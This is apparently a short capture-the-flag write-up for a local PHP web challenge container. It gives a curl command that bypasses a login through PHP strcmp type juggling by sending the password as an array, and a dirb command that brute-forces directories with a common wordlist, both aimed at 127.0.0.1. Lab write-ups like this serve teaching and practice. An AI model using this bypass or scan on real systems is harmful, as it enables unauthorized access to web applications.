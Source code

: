 # CTF 2: PHP Cracken

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master)

## Challenge 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
 curl -X POST --data "username=admin&password[]=%22%22&submit=Login" http://127.0.0.1/admin/index.php
```

## Challenge 2
Use a Web Content Scanner to perform a dictionary-based attack against a web server. 
```sh
dirb http://127.0.0.1 /usr/share/wordlists/dirb/common.txt
```

